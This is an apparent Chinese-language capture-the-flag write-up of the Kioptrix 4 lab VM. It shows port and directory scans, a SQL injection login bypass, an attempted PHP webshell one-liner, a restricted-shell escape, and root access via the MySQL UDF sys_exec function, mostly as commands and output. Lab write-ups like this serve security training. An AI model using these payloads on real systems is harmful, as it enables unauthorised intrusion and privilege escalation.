



## 端口扫描

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.99.45
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:ED:EB:C7 (VMware)

┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sCV -O -p 22,80,139,445 192.168.99.45 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 16:20 CST
Nmap scan report for 192.168.99.45
Host is up (0.00046s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:ED:EB:C7 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2024-02-25T03:20:39-05:00
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 2h30m02s, deviation: 3h32m07s, median: 2s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds

```


## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.99.45 -x php,html,txt
[sudo] kali 的密码：
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.99.45
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1255]
/images               (Status: 301) [Size: 354] [--> http://192.168.99.45/images/]
/index.php            (Status: 200) [Size: 1255]
/.html                (Status: 403) [Size: 325]
/member.php           (Status: 302) [Size: 220] [--> index.php]
/member               (Status: 302) [Size: 220] [--> index.php]
/logout               (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/john                 (Status: 301) [Size: 352] [--> http://192.168.99.45/john/]
/robert               (Status: 301) [Size: 354] [--> http://192.168.99.45/robert/]
/.html                (Status: 403) [Size: 325]
/server-status        (Status: 403) [Size: 333]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
====================================================
```

从目录扫描结果可以猜测john和robert是两个用户
john
1' or 1-- 
用如上账号密码直接登录john用户

看到john的密码了

## ssh登录


登录后发现命令受限
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh -oHostKeyAlgorithms=ssh-rsa john@192.168.99.45
The authenticity of host '192.168.99.45 (192.168.99.45)' can't be established.
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.45' (RSA) to the list of known hosts.
john@192.168.99.45's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ls
john:~$ whoami
*** unknown command: whoami
john:~$ pwd
*** unknown command: pwd
john:~$ cd
john:~$ cd ../
*** forbidden path -> "/home/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ ls
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ ll
total 0
john:~$ lpath --help
Allowed:
 /home/john
john:~$ echo "<?php @system($_GET[x]); ?>" >1.php
*** forbidden syntax -> "echo "<?php @system($_GET[x]); ?>" >1.php"
*** Kicked out
Connection to 192.168.99.45 closed.
```
想放个马上去被踢出来了
但是echo是可以用的
输入echo os.system('/bin/bash')即可变成一个完全shell
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh -oHostKeyAlgorithms=ssh-rsa john@192.168.99.45
john@192.168.99.45's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ ls
john@Kioptrix4:~$ pwd 
/home/john
john@Kioptrix4:~$ 
```

## 提权枚举

sudo -l依旧是没有任何权限，查看suid，查看crontab没有可提权路径
```bash
john@Kioptrix4:~$ sudo -l
Sorry, user john may not run sudo on Kioptrix4.
john@Kioptrix4:~$ find / -perm -04000 -type f 2>/dev/null
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/arping
/usr/bin/gpasswd
/usr/bin/mtr
/usr/bin/passwd
/usr/bin/at
/usr/sbin/pppd
/usr/sbin/uuidd
/lib/dhcp3-client/call-dhclient-script
/bin/mount
/bin/ping6
/bin/fusermount
/bin/su
/bin/ping
/bin/umount
/sbin/umount.cifs
/sbin/mount.cifs
john@Kioptrix4:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:1000:loneferret,,,:/home/loneferret:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/kshell
robert:x:1002:1002:,,,:/home/robert:/bin/kshell
john@Kioptrix4:~$ cat /etc/corntab
cat: /etc/corntab: No such file or directory
john@Kioptrix4:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


john@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

查看root进程
```bash
john@Kioptrix4:~$ ps aux|grep root
root         1  0.0  0.0   2844  1696 ?        Ss   03:14   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S<   03:14   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S<   03:14   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S<   03:14   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   03:14   0:00 [watchdog/0]
root         6  0.0  0.0      0     0 ?        S<   03:14   0:00 [events/0]
root         7  0.0  0.0      0     0 ?        S<   03:14   0:00 [khelper]
root        41  0.0  0.0      0     0 ?        S<   03:14   0:00 [kblockd/0]
root        44  0.0  0.0      0     0 ?        S<   03:14   0:00 [kacpid]
root        45  0.0  0.0      0     0 ?        S<   03:14   0:00 [kacpi_notify]
root       168  0.0  0.0      0     0 ?        S<   03:14   0:00 [kseriod]
root       206  0.0  0.0      0     0 ?        S    03:14   0:00 [pdflush]
root       207  0.0  0.0      0     0 ?        S    03:14   0:01 [pdflush]
root       208  0.0  0.0      0     0 ?        S<   03:14   0:00 [kswapd0]
root       250  0.0  0.0      0     0 ?        S<   03:14   0:00 [aio/0]
root      1464  0.0  0.0      0     0 ?        S<   03:14   0:00 [ata/0]
root      1467  0.0  0.0      0     0 ?        S<   03:14   0:00 [ata_aux]
root      1486  0.0  0.0      0     0 ?        S<   03:14   0:00 [ksuspend_usbd]
root      1490  0.0  0.0      0     0 ?        S<   03:14   0:00 [khubd]
root      2322  0.0  0.0      0     0 ?        S<   03:15   0:00 [scsi_eh_0]
root      2427  0.0  0.0      0     0 ?        S<   03:15   0:00 [scsi_eh_1]
root      2429  0.0  0.0      0     0 ?        S<   03:15   0:00 [scsi_eh_2]
root      2601  0.0  0.0      0     0 ?        S<   03:15   0:00 [kjournald]
root      2772  0.0  0.0   2104   708 ?        S<s  03:15   0:00 /sbin/udevd --daemon
root      3042  0.0  0.0      0     0 ?        S<   03:15   0:00 [kgameportd]
root      3069  0.0  0.0      0     0 ?        S<   03:15   0:00 [btaddconn]
root      3071  0.0  0.0      0     0 ?        S<   03:15   0:00 [btdelconn]
root      3227  0.0  0.0      0     0 ?        S<   03:15   0:00 [kpsmoused]
root      4520  0.0  0.0   1716   488 tty4     Ss+  03:15   0:00 /sbin/getty 38400 tty4
root      4522  0.0  0.0   1716   492 tty5     Ss+  03:15   0:00 /sbin/getty 38400 tty5
root      4529  0.0  0.0   1716   488 tty2     Ss+  03:15   0:00 /sbin/getty 38400 tty2
root      4532  0.0  0.0   1716   488 tty3     Ss+  03:15   0:00 /sbin/getty 38400 tty3
root      4536  0.0  0.0   1716   492 tty6     Ss+  03:15   0:00 /sbin/getty 38400 tty6
root      4588  0.0  0.0   1872   544 ?        S    03:15   0:00 /bin/dd bs 1 if /proc/kmsg of /var/run/klogd/kmsg
root      4609  0.0  0.0   5316   988 ?        Ss   03:15   0:00 /usr/sbin/sshd
root      4665  0.0  0.0   1772   528 ?        S    03:15   0:00 /bin/sh /usr/bin/mysqld_safe
root      4707  0.0  0.7 127120 16376 ?        Sl   03:15   0:00 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --skip-external
root      4709  0.0  0.0   1700   556 ?        S    03:15   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
root      4782  0.0  0.0   6528  1328 ?        Ss   03:15   0:00 /usr/sbin/nmbd -D
root      4784  0.0  0.1  10108  2528 ?        Ss   03:15   0:00 /usr/sbin/smbd -D
root      4798  0.0  0.0   8084  1340 ?        Ss   03:15   0:00 /usr/sbin/winbindd
root      4800  0.0  0.0   8208  1700 ?        S    03:15   0:00 /usr/sbin/winbindd
root      4830  0.0  0.0   2104   892 ?        Ss   03:15   0:00 /usr/sbin/cron
root      4852  0.0  0.2  20464  6196 ?        Ss   03:15   0:00 /usr/sbin/apache2 -k start
root      4885  0.0  0.0   8092  1272 ?        S    03:15   0:00 /usr/sbin/winbindd
root      4888  0.0  0.0   8084   868 ?        S    03:15   0:00 /usr/sbin/winbindd
root      4891  0.0  0.0  10108  1028 ?        S    03:15   0:00 /usr/sbin/smbd -D
root      4911  0.0  0.0   1716   488 tty1     Ss+  03:15   0:00 /sbin/getty 38400 tty1
root      5569  0.0  0.1  11360  3724 ?        Ss   04:29   0:00 sshd: john [priv]
john      5627  0.0  0.0   3004   728 pts/0    R+   04:42   0:00 grep root
```

这里可以看到root开启了mysql
在/var/www看mysql的配置信息
```bash
john@Kioptrix4:~$ ls /var/www
checklogin.php  database.sql  images  index.php  john  login_success.php  logout.php  member.php  robert
john@Kioptrix4:~$ cat /var/www/database.sql 
CREATE TABLE `members` (
`id` int(4) NOT NULL auto_increment,
`username` varchar(65) NOT NULL default '',
`password` varchar(65) NOT NULL default '',
PRIMARY KEY (`id`)
) TYPE=MyISAM AUTO_INCREMENT=2 ;

-- 
-- Dumping data for table `members`
-- 

INSERT INTO `members` VALUES (1, 'john', '1234');
john@Kioptrix4:~$ cat /var/www/checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name

// Connect to server and select databse.
mysql_connect("$host", "$username", "$password")or die("cannot connect");
mysql_select_db("$db_name")or die("cannot select DB");

// Define $myusername and $mypassword
$myusername=$_POST['myusername'];
$mypassword=$_POST['mypassword'];

// To protect MySQL injection (more detail about MySQL injection)
$myusername = stripslashes($myusername);
//$mypassword = stripslashes($mypassword);
$myusername = mysql_real_escape_string($myusername);
//$mypassword = mysql_real_escape_string($mypassword);

//$sql="SELECT * FROM $tbl_name WHERE username='$myusername' and password='$mypassword'";
$result=mysql_query("SELECT * FROM $tbl_name WHERE username='$myusername' and password='$mypassword'");
//$result=mysql_query($sql);

// Mysql_num_row is counting table row
$count=mysql_num_rows($result);
// If result matched $myusername and $mypassword, table row must be 1 row

if($count!=0){
// Register $myusername, $mypassword and redirect to file "login_success.php"
        session_register("myusername");
        session_register("mypassword");
        header("location:login_success.php?username=$myusername");
}
else {
echo "Wrong Username or Password";
print('<form method="link" action="index.php"><input type=submit value="Try Again"></form>');
}

ob_end_flush();
?>
```
可以发现，用户名为root，密码空

## mysqlUDF 用户定义函数提权
首先检查配置文件是否可供root用户使用
```bash
$ls -la /usr/lib/lib_mysqludf_sys.so 
-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so
```
发现可用后，进入mysql
使用MySQL执行usermod，将john加入管理员组
```bash
john@Kioptrix4:~$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 54
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select sys_exec('usermod -a -G admin john')
    -> ;
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.07 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo -l
[sudo] password for john: 
User john may run the following commands on this host:
    (ALL) ALL
john@Kioptrix4:~$ whoami
john
john@Kioptrix4:~$ sudo '/bin/bash'
root@Kioptrix4:~# whoami
root
root@Kioptrix4:~# ls /root
congrats.txt  lshell-0.9.12
root@Kioptrix4:~# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```
至此提权完毕